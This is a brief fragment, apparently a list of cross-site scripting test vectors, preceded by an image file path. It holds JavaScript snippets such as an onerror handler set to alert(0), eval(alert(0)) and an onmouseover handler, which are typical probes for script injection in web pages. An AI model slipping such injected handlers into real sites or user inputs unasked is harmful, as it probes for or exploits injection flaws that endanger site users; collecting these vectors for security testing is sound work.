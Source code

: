 onerror = alert(0)
confirm(0)
prompt(0)
write(0)
print(0)
console.log(0)
eval(alert(0))
onmouseover="alert(0)"